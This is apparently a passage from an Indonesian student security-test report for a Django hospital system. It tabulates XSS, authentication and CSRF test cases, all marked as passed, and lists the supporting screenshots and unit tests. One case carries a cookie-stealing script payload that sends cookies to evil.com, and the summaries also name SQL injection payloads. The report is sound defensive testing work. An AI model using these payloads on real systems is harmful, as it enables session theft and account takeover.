| TC-CI-04a | Hospital: Nama Pasien / Catatan Dokter | 1 - Hospital Information System | Code Injection | Injeksi pada field nama pasien atau kolom catatan/diagnosa dokter. | 1. Login sebagai user valid.<br>2. Buka form edit profil pasien atau form catatan medis.<br>3. Masukkan payload script pencuri cookie.<br>4. Submit form dan periksa hasilnya. | `<script>document.location='http://evil.com?c='+document.cookie</script>` | Input ditolak oleh validasi atau diperlakukan sebagai teks biasa; tidak ada redirect ke domain eksternal dan tidak ada pencurian cookie. | CWE-79 | Lulus |  |

### Broken Authentication

| TC-ID | Nama TC | Skenario | Jenis | Deskripsi | Langkah | Contoh Input | Hasil yang Diharapkan | CWE | Status Pengujian | Screenshot |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| TC-BA-01 | Password Hashing Verification (White-box) | Semua (1-10) | Broken Authentication | Verifikasi bahwa password tidak disimpan dalam plaintext di database. | 1. Register atau buat akun user baru dengan password `TestPassword123`.<br>2. Buka database SQLite `db.sqlite3`.<br>3. Query kolom password untuk user tersebut. | Query database: `SELECT password FROM users WHERE username='testuser';` | Nilai kolom password berupa hash seperti `pbkdf2_sha256$...`; tidak ada password plaintext `TestPassword123`. | CWE-256, CWE-916 | Lulus |  |
| TC-BA-02 | Brute Force / Rate Limiting | Semua (1-10) | Broken Authentication | Melakukan percobaan login berulang dengan password salah. | 1. Lakukan 6 kali percobaan login dengan username valid dan password salah.<br>2. Catat respons pada percobaan ke-6. | Username valid.<br>Password: `WrongPass1`, `WrongPass2`, ..., `WrongPass6` | Pada percobaan ke-6 atau setelah threshold, sistem menampilkan pesan akun terkunci sementara; login tidak dapat dilanjutkan sementara. | CWE-307 | Lulus |  |
| TC-BA-03 | Session Token Invalidation setelah Logout | Semua (1-10) | Broken Authentication | Memastikan session token tidak dapat digunakan setelah logout. | 1. Login dan catat nilai session cookie.<br>2. Logout dari aplikasi.<br>3. Tanpa login ulang, akses halaman protected memakai cookie lama. | Cookie: `sessionid=<nilai sebelum logout>` | Server redirect ke halaman login atau memberi HTTP 401/403; tidak ada akses ke halaman terproteksi. | CWE-613 | Lulus |  |
| TC-BA-04 | Akses Halaman Terproteksi Tanpa Login | Semua (1-10) | Broken Authentication | Mencoba mengakses URL yang hanya boleh diakses user login secara langsung. | 1. Pastikan tidak ada session aktif.<br>2. Akses langsung URL terproteksi aplikasi hospital. | Endpoint contoh: `/patient/dashboard/`, `/patient/appointments/new/`, `/medical/appointments/new/`, `/pharmacy/prescriptions/` | Server redirect ke halaman login; konten halaman terproteksi tidak ditampilkan. | CWE-306 | Lulus |  |
| TC-BA-05 | Informasi Error yang Tidak Informatif | Semua (1-10) | Broken Authentication | Memastikan pesan error login tidak membocorkan apakah username atau password yang salah. | 1. Login dengan username tidak terdaftar dan password sembarang.<br>2. Login dengan username valid dan password salah.<br>3. Bandingkan pesan error keduanya. | Username tidak terdaftar + password bebas.<br>Username valid + password salah. | Kedua skenario menampilkan pesan yang sama, yaitu `Username atau password salah`; tidak ada pesan berbeda seperti `Username tidak ditemukan` atau `Password salah`. | CWE-204 | Lulus |  |

### CSRF

| TC-ID | Nama TC | Skenario | Jenis | Deskripsi | Langkah | Contoh Input | Hasil yang Diharapkan | CWE | Status Pengujian | Screenshot |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| TC-CSRF-01 | CSRF Token Presence on Forms | Semua (1-10) | CSRF | Memastikan setiap form POST memiliki CSRF token. | 1. Login sebagai user valid.<br>2. Buka semua form yang melakukan operasi write.<br>3. Inspect source HTML form tersebut. | Inspeksi HTML. | Setiap form POST memiliki hidden input `csrfmiddlewaretoken`. | CWE-352 | Lulus |  |
| TC-CSRF-02 | Request dengan CSRF Token Invalid Ditolak | Semua (1-10) | CSRF | Mengirim POST request dengan CSRF token yang salah atau palsu. | 1. Login sebagai user valid.<br>2. Intercept request POST.<br>3. Ubah nilai `csrfmiddlewaretoken` menjadi `invalid_token_12345`.<br>4. Forward request. | `csrfmiddlewaretoken=invalid_token_12345` | Server merespons HTTP 403 Forbidden; operasi tidak dieksekusi. | CWE-352 | Lulus |  |
| TC-CSRF-03 | Simulasi Cross-Origin Request (Tanpa Token) | Semua (1-10) | CSRF | Simulasi serangan CSRF dari halaman eksternal menggunakan HTML form sederhana. | 1. Buat file HTML lokal `csrf_attack.html` dengan form POST ke endpoint target.<br>2. User yang sudah login membuka file tersebut dan submit form.<br>3. Lihat apakah server mengeksekusi request. | `<form action="http://localhost:8000/patient/appointments/new/" method="POST">` dengan field berbahaya tanpa token. | Server menolak request dengan HTTP 403; operasi tidak dieksekusi karena tidak ada CSRF token valid. | CWE-352 | Lulus |  |
| TC-CSRF-04a | Hospital: Form Ubah Data Pasien | 1 - Hospital Information System | CSRF | Menguji endpoint POST edit data pasien agar tidak dapat dipanggil tanpa token CSRF valid. | 1. Login sebagai pasien valid.<br>2. Kirim POST langsung ke `/patient/edit/<id>/` tanpa `csrfmiddlewaretoken` valid.<br>3. Periksa apakah data pasien berubah. | POST ubah nama/alamat pasien tanpa token CSRF. | Server menolak request dengan HTTP 403; data pasien tidak berubah dan operasi tidak dieksekusi tanpa izin. | CWE-352 | Lulus |  |

## D. Daftar Screenshot Bukti Pengujian

| TC-ID | File Screenshot | Ringkasan Bukti |
| --- | --- | --- |
| TC-SQLi-01 | `docs/screenshots/general/TC-SQLi-01.png` | Login dengan payload SQL injection gagal dan pesan error tetap generik. |
| TC-SQLi-02 | `docs/screenshots/general/TC-SQLi-02.png` | Search input dengan payload `UNION SELECT` tidak menampilkan data user atau error SQL. |
| TC-SQLi-03 | `docs/screenshots/general/TC-SQLi-03.png` | Review kode menunjukkan penggunaan ORM/parameterized query. |
| TC-SQLi-04a | `docs/screenshots/general/TC-SQLi-04a.png` | Payload `12345' OR '1'='1` pada pencarian riwayat medis tidak dump semua rekam medis. |
| TC-CI-01 | `docs/screenshots/general/TC-CI-01.png` | Payload `<script>` tidak dieksekusi. |
| TC-CI-02 | `docs/screenshots/general/TC-CI-02.png` | Payload HTML tidak dirender sebagai markup aktif. |
| TC-CI-03 | `docs/screenshots/general/TC-CI-03.png` | Payload template tidak dievaluasi menjadi output server-side. |
| TC-CI-04a | `docs/screenshots/general/TC-CI-04a.png` | Payload script pencuri cookie pada nama pasien/catatan dokter ditolak atau tidak dieksekusi. |
| TC-BA-01 | `docs/screenshots/general/TC-BA-01.png` | Password tersimpan sebagai hash Django. |
| TC-BA-02 | `docs/screenshots/general/TC-BA-02.png` | Akun terkunci sementara setelah percobaan login gagal berulang. |
| TC-BA-03 | `docs/screenshots/general/TC-BA-03.png` | Cookie session lama tidak dapat mengakses halaman protected setelah logout. |
| TC-BA-04 | `docs/screenshots/general/TC-BA-04.png` | Endpoint protected redirect ke login saat belum autentikasi. |
| TC-BA-05 | `docs/screenshots/general/TC-BA-05.png` | Pesan error login sama untuk username tidak dikenal dan password salah. |
| TC-CSRF-01 | `docs/screenshots/general/TC-CSRF-01.png` | Form POST memiliki hidden input `csrfmiddlewaretoken`. |
| TC-CSRF-02 | `docs/screenshots/general/TC-CSRF-02.png` | Token CSRF invalid menghasilkan HTTP 403. |
| TC-CSRF-03 | `docs/screenshots/general/TC-CSRF-03.png` | Cross-origin POST tanpa token valid menghasilkan HTTP 403. |
| TC-CSRF-04a | `docs/screenshots/general/TC-CSRF-04a.png` | POST edit data pasien tanpa token valid menghasilkan HTTP 403 dan data tidak berubah. |

## E. Catatan Verifikasi Lokal

Test otomatis yang relevan dapat dijalankan dengan:

```bash
python manage.py test auth_app core_app medical_app pharmacy_app
```

Beberapa test yang mendukung rubrik:

- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_sqli_01_login_bypass_payload_fails`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_sqli_02_union_payload_on_input_does_not_extract_data`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_sqli_03_non_billing_source_uses_orm_not_raw_sql_concat`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_sqli_04a_hospital_medical_record_search_rejects_bypass_payload`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ci_01_script_tag_input_is_rejected`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ci_02_html_injection_input_is_rejected`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ci_03_ssti_payload_is_not_executed`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ci_04a_patient_name_rejects_cookie_stealing_script_payload`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ba_01_password_is_hashed`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ba_02_account_locks_after_repeated_failed_login`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ba_03_old_session_cookie_cannot_access_after_logout`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ba_04_protected_pages_redirect_without_login`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_ba_05_login_error_message_is_generic`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_csrf_01_post_forms_render_csrf_token`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_csrf_02_invalid_csrf_token_is_rejected`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_csrf_03_cross_origin_post_without_token_is_rejected`
- `auth_app.tests_general_tc.Tugas3GeneralSecurityTestCases.test_tc_csrf_04a_patient_edit_without_token_is_rejected`
- `auth_app.tests.AuthSecurityTests.test_account_locked_after_five_failed_attempts`
- `auth_app.tests.AuthSecurityTests.test_locked_account_cannot_login_even_with_correct_password`
- `auth_app.tests.AuthSecurityTests.test_wrong_password_stays_on_login_page_with_message`
- `auth_app.tests.AuthSecurityTests.test_logout_requires_post_csrf_token_when_enforced`
- `core_app.tests.PatientPortalTests.test_self_registration_rejects_script_payload`
- `core_app.tests.PatientPortalTests.test_patient_cannot_access_other_patient_encounter`
- `medical_app.tests.MedicalSecurityTests.test_invalid_uuid_payload_does_not_execute_sql_injection`
- `medical_app.tests.MedicalSecurityTests.test_medical_record_is_stored_encrypted`

## F. Link Video Demo

**Link Video:** TODO
